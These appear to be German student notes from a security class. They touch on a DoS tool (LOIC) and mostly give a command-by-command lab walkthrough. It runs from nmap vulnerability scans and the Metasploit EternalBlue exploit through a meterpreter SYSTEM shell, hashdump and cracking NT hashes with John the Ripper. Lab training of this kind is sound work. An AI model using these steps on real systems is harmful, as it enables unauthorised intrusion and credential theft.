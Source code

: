 # **Mitschrift**
#### Datum: 29.04.2020
### **Thema: gesetzliche Angelegeneheiten**
[Artikel Zur Strafe heise.de](https://www.heise.de/ix/artikel/Zur-Strafe-1892408.html?artikelseite=&view=)

---
### **Thema: TCP** 
![img](https://upload.wikimedia.org/wikipedia/commons/thumb/9/98/Tcp-handshake.svg/1024px-Tcp-handshake.svg.png)

![img2](https://2.bp.blogspot.com/-Q1OvitIDVFE/T9opuETUwcI/AAAAAAAACB4/T1TaXfGxj94/s1600/Low-Orbit-Ion-Cannon.png)


- Ist ein "**nicht legales** Tool" für Dos-Angriffe **"Benutzung auf eigene Gefahr"**
[![IMAGE ALT TEXT](https://tse2.mm.bing.net/th?id=OIP.szMmUNZjK6gT6qrs8uhk9QHaD4&pid=Api)](https://youtu.be/Bbrkc7AXtKg "Video Title")
- Tutorial 
---

### **Sonnleiter Era**
 ``` 
- sudo openvpn exotechly.ovpn &
- ip a
- 10.9.41.189
- nmap 10.10.125.160 | tee nmap-standard 
- nmap --script vuln -p 135,139,445 10.9.41.189 
  - um herauszufinden ob es sich um eine Windows Maschine handelt 
- nmap --script vuln -p 135,149,445 10.10.227.183 |tee nmap-vuln
 ```
# Zweite Session 

```
1. nmap -sV -sC --script vuln -oN blue.nmap 10.10.137.78
2. msfconsole
3. search ms17
4. search eternal
5. use 3 
6. show options
7. set rhosts 10.10.73.63
=> remote host (target)
8. run 
9.C:\Windows\system32>
Optional
set rhots 10.10.201.164
run
exploit
show options
set LPORT 4445
```
## Task 3
```
1. use post/multi/manage/shell_to_meterpreter
2. show options
3. set session 1
4. run 
5. session 
6. sessions 
=> wir sollten jetzt eine 2 Session haben. 
7. sessions -i 2
=> Startet eine Interaktion 
8. getuid
=> NT AUTHORITIY\SYSTEM
9. shell
10. whoami
11. strg + z
12. ps
=> spoolsv.exe, hängt sich an diesen Prozessor, x64, NT AUTHORITY\SYSTEM
13. migrate (Prozessid)
14. getuid
15. hashdump
=> copy key vom john
16. echo "john"
17. john jon.hash --format=NT --wordlist=/opt/rockyou.txt
```
## Nächste Woche BitTorrent

